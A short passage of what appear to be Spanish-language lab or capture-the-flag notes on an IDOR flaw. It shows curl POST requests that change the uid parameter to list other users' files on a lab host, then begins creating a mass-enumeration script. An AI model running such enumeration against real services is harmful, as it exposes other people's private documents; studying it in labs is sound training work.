Si voy cambiando el valor de uid obtengo los nombres de los ficheros en el listado para cada uid

```sh
curl -s -X $'POST' -H $'Host: 94.237.48.35:46523' --data-binary $'uid=1' $'http://94.237.48.35:46523/documents.php' | grep "<li class='pure-tree_link'>"
curl -s -X $'POST' -H $'Host: 94.237.48.35:46523' --data-binary $'uid=2' $'http://94.237.48.35:46523/documents.php' | grep "<li class='pure-tree_link'>"
curl -s -X $'POST' -H $'Host: 94.237.48.35:46523' --data-binary $'uid=3' $'http://94.237.48.35:46523/documents.php' | grep "<li class='pure-tree_link'>"
```

![alt text](image-33.png)


```sh
mkdir mass_idor
cd mass_idor/
touch i_am_mass_idor.sh
nano i_am_mass_idor.sh 
```
